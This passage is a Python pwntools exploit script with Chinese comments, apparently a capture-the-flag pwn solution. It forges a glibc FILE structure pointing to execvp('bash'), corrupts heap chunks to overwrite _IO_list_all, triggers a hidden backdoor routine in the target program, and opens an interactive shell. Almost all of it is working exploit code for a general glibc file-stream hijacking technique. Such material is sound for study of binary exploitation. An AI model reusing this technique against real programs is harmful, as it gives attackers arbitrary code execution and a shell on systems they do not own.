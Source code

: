 ```py
	print(f'伪造的File结构地址: { hex(file_addr) }')
	
	fileData = flat({
		0:      0,  						# file._flag
		0x10:   1,  						# file._IO_read_end
		0x28:   1,  						# file._IO_write_ptr
		0x30:   p64(file_addr + 0x48),                  	# _codecvt->__cd_in.step
		0x48:   b'bash',                                	# step.__shlib_handle
		0x70:   p64(lib_c.symbols['execvp']),           	# step.__fct
		0x88:   p64(file_addr + 0x150),                 	# file._lock
		0x98:   p64(file_addr + 0x30),                  	# file._codecvt
		0xa0:   p64(file_addr + 0xe0),                  	# file._wide_data 
		0xd8:   p64(lib_c.symbols['_IO_wfile_jumps'] + 8),	# file._vtable
		0xe0:   p64(file_addr + 0x48),                  	# _wide_data._IO_read_ptr
		0xe8:   p64(file_addr + 0x48),                  	# _wide_data._IO_read_end
		0x110:  p64(file_addr + 0x48),                  	# _wide_data._IO_buf_base
        }, filler=b'\0')
	
	new_log2(0x160, b'_' * 5 + fileData)
	
	'''
	向 _IO_list_all 写入伪造的 File 地址
	'''
	new_log2(80, b'debug_addr:'.rjust((80 - 11),b'a'))
	display_log2()
	display_log2()
	p.recvuntil(b'debug_addr:')
	print(f'debug地址: { hex(u64(p.recv(8))) }')
	
	print(f'libc _IO_list_all地址: { hex(lib_c.symbols['_IO_list_all']) }')
	# FreeList 后期在初始化时，其链表前几个节点可能并非顺序排列，为了方便使用 padding
	for i in range(0, 6):
		new_log2(80, b'a' * (80 - 15) + b'\n' )
	new_log2(80, b'a' * (80 - 56 + 4) + b'\n' )
	
	new_log2(80, b'_' * 5 + p64(lib_c.symbols['_IO_list_all'] - 0x10) )
	new_log_stdout2(80)
	display_log2()
	
	new_log2(80, b'useless chunk')
	new_log2(80, b'_' * 5 + p64(file_addr))
	
	'''
	PRE_MANGGLE
	输入的值为 10
	'''
	backdoor2()
	logout2()
	backdoor_send_data2(b'10')
	
	p.clean()
	p.interactive()
	
print('------------ debug ------------')

def debug():
	gdb.attach(p)
	p.interactive()

```
